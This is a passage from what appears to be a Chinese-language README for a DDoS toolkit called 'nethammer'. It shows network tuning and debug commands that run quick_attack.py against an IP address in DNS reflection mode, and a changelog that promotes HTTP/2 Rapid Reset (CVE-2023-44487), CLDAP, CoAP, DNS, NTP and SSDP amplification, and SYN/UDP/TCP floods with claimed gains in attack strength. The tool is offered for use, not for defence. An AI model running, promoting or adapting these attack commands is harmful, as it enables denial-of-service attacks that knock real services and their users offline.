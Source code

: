 #### 🌐 网络优化

```bash
# 选择最佳VPS位置
for region in us-east us-west eu-central asia-pacific; do
    echo "测试 $region 延迟:"
    ping -c 5 $region.example.com
done

# 多网卡绑定 (如果支持)
ip link add bond0 type bond mode 802.3ad
ip link set eth0 master bond0
ip link set eth1 master bond0

# DNS优化
echo "nameserver 1.1.1.1" > /etc/resolv.conf
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
```

### 调试模式

```bash
# 启用详细日志 (DNS反射可用IP)
python3 quick_attack.py 192.168.1.100 -m dns --debug --verbose

# 网络抓包分析
tcpdump -i any -w nethammer.pcap &
python3 quick_attack.py 192.168.1.100 -m dns -t 60
killall tcpdump
wireshark nethammer.pcap

# 性能分析
strace -c python3 quick_attack.py 192.168.1.100 -m dns -t 60
```

---

## 📈 更新日志

### v2.0 (2025-08-14)
- 🔥 新增HTTP/2 Rapid Reset攻击 (CVE-2023-44487)
- 🔥 新增CLDAP反射放大攻击 (2025年增长3,488%)
- 🔥 新增CoAP放大攻击 (IoT设备攻击)
- ⚡ 攻击效果提升300-500%
- 🎛️ 完善参数控制和状态监控
- 📊 新增实时攻击统计

### v1.0 (2020-2023)
- 📋 基础DNS/NTP/SSDP放大攻击
- 🌊 UDP/TCP/SYN洪水攻击
- 🎯 基本攻击控制功能

---